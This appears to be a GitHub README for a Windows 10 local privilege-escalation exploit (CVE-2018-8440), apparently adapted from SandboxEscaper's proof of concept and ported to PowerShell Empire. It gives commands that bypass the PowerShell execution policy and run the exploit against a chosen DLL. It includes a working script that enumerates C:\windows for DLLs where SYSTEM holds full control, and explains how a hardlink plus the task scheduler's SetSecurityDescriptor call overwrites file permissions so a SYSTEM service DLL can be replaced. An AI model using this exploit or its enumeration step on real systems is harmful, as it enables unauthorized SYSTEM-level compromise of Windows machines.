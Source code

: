 # Working Windows 10 SYSTEM DLL injection EoP (Sunghyun Edit)

# Usage
```
Set-ExecutionPolicy Bypass Process
.\exploit.ps1 -TargetFile C:\Windows\Some.dll
```
This will exploit the Windows operating system allowing you to modify the file Some.dll.

# Example
```
Set-ExecutionPolicy Bypass Process
.\example.ps1
```
https://youtu.be/rNSpxJd3_BM
# Finding Vulnerable DLL files
```
$aapsid = 'NT AUTHORITY\SYSTEM'

ForEach($file in (Get-ChildItem -File -recurse -Path 'C:\windows' -Filter *.dll -ErrorAction SilentlyContinue)) {
 
   $acl = Get-Acl -path $file.FullName
   ForEach($ace in $acl.Access) {
      If(($ace.FileSystemRights -eq
           [Security.AccessControl.FileSystemRights]::FullControl) -and 
            $ace.IdentityReference.Value -in $aapsid) {
               Write-Output $file.FullName
              
      }
        
   }
   
   }
```
# Further Information
The first PoC was released by [@SandboxEscaper](https://twitter.com/sandboxescaper) on the 27th August 2018, however, is now removed from GitHub.

The exploit.dll and the code for the TriggerXPSPrint.cpp comes from her original PoC. The exploit.dll simply launches notepad.
I tried to replicate the XPS print api into C# but using `System.Printing` or `System.Drawing.Printing` only calls the print job within the current user context, you need to use the API to get the spooler service to initate the print job.

The actual exploit process is the native hardlink and using the `Schedule.Service` COM object to execute the method `SetSecurityDescriptor`. This then overwrites the permissions on the hardlinked file thus also updating the DACL on the targetted file. The `example.ps1` is purely an instance of how you could use this exploit to replace a SYSTEM level service dll file. In this case it was the XPS printer, but it could also be an executable stored within `C:\Program Files` for example. 

This was patched by Microsoft on the 11th September 2018. The following link has the relevant KB numbers:
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8440

I since then have modified this to work with PowerShell Empire, you can read the pull request here:
https://github.com/EmpireProject/Empire/pull/1230

I have only tested this on Windows 10, in theory it should work on other versions.
